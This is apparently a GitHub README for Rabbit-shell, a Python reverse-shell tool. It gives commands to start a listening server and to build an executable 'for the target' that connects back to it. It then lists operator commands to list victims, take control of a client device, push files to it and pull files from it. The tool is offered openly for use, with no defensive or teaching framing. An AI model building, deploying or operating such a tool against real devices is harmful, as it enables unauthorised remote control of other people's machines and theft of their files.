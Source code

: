 # Rabbit-shell

###### Rabbit shell reverse shell tool.





##  Installation.

```bash
git clone https://github.com/greedalbadi/rabbit-shell.git
cd rabbit-shell
pip install -r requirements.txt
```







## Run server and start listening.

```bash
python rabbit.py --server -host 192.168.0.111 -port 9999
```

> - --server is args container
> - -host is server or device ip address
> - -port is wich port you'll be listening to





## Generate exe for the target.

```bash
python rabbit.py --client -host 192.168.0.111 -port 9999
```

> - --client is args container
> - -host is server or device ip address
> - -port is wich port you'll be listening to

###### This will generate an exe inside dist directory.



## Commands to use from server side.



### To request server information.

```bash
>: server
```



### To list all clients.

```bash
>: list
```



### To set and controll a client device by client use number from the list.

```
>: set 0
```



### Quit client session.

```bash
>: quit
```



### Send file to client.

```bash
>: file:filename
```



### Request file from client.

```bash
reqfile:filename
```











made with depression <3

by [@greedalbadi](https://www.instagram.com/greedalbadi/)

